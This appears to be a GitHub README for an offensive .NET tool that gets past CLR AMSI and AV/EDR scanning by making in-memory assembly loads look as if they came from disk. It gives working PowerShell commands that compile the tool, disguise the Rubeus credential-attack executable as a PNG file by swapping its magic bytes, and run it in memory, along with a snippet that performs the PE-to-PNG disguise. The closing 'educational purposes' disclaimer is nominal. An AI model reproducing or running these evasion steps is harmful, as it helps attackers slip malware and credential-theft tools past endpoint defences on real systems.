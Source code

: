 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect to make it opsec safer. Ended up just copy pasting code to create a single .cs file for convenience. 

**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to trollAMSI) 

## Why is this technique so powerful?
Because even if you bypass amsi, when you any sort of assembly.load, the byte array is scanned during virtualalloc, etc by the AV/EDR. This spoofs a byte array to appear on disk and the AV/EDR will not re-scan the byte array due to unnecessary overhead, since it is already assumed to be scanned when on disk. 

![Image](https://github.com/user-attachments/assets/c893ef11-20a5-455a-a62c-1d6a717884fe)
## Usage 
```
#First download TrollAmsiDOTNET.cs and dog.png (taken from flangvik/SharpCollection nightly build, you can sha1 the bytes before loading to check)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET.dll /target:library TrollAmsiDOTNET.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET.dll")) > $null
#[string[]]$myargs = "triage","/consoleoutfile:C:\troll\hehe.txt"
[string[]]$myargs = "triage"
$entryPoint = ([TrollAmsiDOTNET]::SpoofFileLoad($fileBytes,"Rubeus.exe")).EntryPoint
$entryPoint.Invoke($null, (,$myargs))

```

## Code to change MZ header to PNG header 
```
$infile = "C:\troll\Rubeus.exe"
$outfile = "C:\troll\dog.png"
$pngMagicBytes = [byte[]](0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A)
$fileBytes = [System.IO.File]::ReadAllBytes($infile)
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $pngMagicBytes[$i] }
[System.IO.File]::WriteAllBytes($outfile, $fileBytes)
```

## Disclaimer
Should only be used for educational purposes!
